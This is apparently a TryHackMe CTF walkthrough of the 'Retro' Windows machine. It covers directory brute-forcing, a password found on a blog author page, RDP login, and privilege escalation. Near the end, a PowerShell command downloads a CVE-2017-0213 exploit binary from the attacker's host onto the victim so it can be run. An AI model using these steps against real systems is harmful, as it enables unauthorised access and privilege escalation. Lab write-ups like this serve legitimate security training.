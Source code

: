 ```yaml
---
date: 2025-01-25
categories: [CTF, THM]
title: "THM - Retro"
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Retro - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Retro

NMAP

![image1](../resources/73bc979fd79147bfb7af953ba4eb1a47.png)


![image2](../resources/1c08683911c64c4a8de7ab4488b9b326.png)

Directory bruteforce:

```bash
gobuster dir -u http://10.10.216.131 -w /usr/share/seclists/Discovery/Web-Content/big.txt
```

![image3](../resources/cea9a1109b664188b46e5c75fac18af7.png)

`http://10.10.216.131/retro/`

![image4](../resources/ecb8a353b0464de992258ed05fcdc35a.png)

Looking at the page source - Found:


![image5](../resources/aa84b5b210c14fb08bc788310008a45a.png)


![image6](../resources/8696e847d65e4ddd801d2960a5832fcc.png)


![image7](../resources/ac7f5e9ba3c74e41913bd75892f4fda3.png)

`http://10.10.216.131/retro/index.php/author/wade/`

![image8](../resources/8c580b0666894cb0a628eb2fff9c6e60.png)

- Something that could be a password - **parzival**:

![image9](../resources/4ab9932580fc42f4b3e6d0418d90eda8.png)

- Port 3389 is open:

```bash
xfreerdp /v:10.10.216.131 /u:wade /p:"parzival" /dynamic-resolution /cert:ignore

```

![image10](../resources/6fa0765df1854a42934cf8573b6d301c.png)

We can read user.txt

Start enumeration:

```bash
query user
```

![image11](../resources/6a64b73af79f47eebd83fe8995593250.png)

```bash
whoami /all
```

![image12](../resources/432413d02bc74bcda5c1a249db2493a9.png)

- Open Chrome and check history


![image13](../resources/0f732021568b4242a94c0d3a0010085b.png)

[https://github.com/ycdxsb/WindowsPrivilegeEscalation](https://github.com/ycdxsb/WindowsPrivilegeEscalation#cve-2022-37969)


![image14](../resources/a2e47d8ae0b6463d96a007b78a545c0d.png)

**\*\* Check Recycle Bin for hhupd.exe file**


![image15](../resources/05db7a389b9e4be19737304ed40afcb1.png)

- **Run the program as administrator**


![image16](../resources/7359fc3702b44ad6a7ff7d4241d8ba1f.png)


![image17](../resources/374caaf6525f4934882a7e8347f517fc.png)


![image18](../resources/cf7819f17efd4086a98c2442ecd7d308.png)


![image19](../resources/adfa477c1b1c45379dfd2a4adce57c42.png)


![image20](../resources/8a45a11c811e4e8c952fc72f54464a45.png)

- Kept getting to this point but no programs show up

- Found a hint:
Make sure to open Internet Explorer and Chrome BEFORE running the program

But still doesn't work

- Wes-NG suggested CVE-2017-0213
<https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213>

Download and extract the zip file and transfer to the windows machine:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8081/CVE-2017-0213_x64.exe', 'C:\Users\wade\CVE-2017-0213_x64.exe')

```
And just run it


![image21](../resources/8c1c874c7d304ce998d28d29ffefe7bb.png)

Read root.txt